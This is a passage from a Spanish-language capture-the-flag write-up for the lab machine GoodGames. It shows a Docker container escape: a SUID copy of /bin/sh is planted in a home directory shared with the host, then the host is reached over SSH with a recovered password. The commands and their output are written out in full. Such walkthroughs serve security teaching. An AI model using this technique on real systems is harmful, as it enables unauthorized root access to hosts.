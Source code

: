 ```
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /sys/firmware type tmpfs (ro,relatime)
```

Como tenemos `acceso` a un `directorio` que está en la `montura`, podemos añadir la `sh` a este directorio y darle permisos `SUID`, para que cuando nos conectemos como el usuario `augustus` a la máquina principal `convertirnos` en `root`

```
root@3a453ab39d3d:/home/augustus# cp /bin/sh .
root@3a453ab39d3d:/home/augustus# chmod u+s sh 
root@3a453ab39d3d:/home/augustus# ls -l sh
-rwsr-xr-x 1 root root 1099016 Aug  7 01:03 sh
```

Nos conectamos a la máquina principal como el usuario `augustus` por `SSH` usando la contraseña `superadministrator`

```
root@3a453ab39d3d:/home# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ ls -l
total 1196
-rwsr-xr-x 1 root root      117208 Aug  7 02:08 sh
-rw-r----- 1 root augustus      33 Aug  7 00:27 user.txt
```
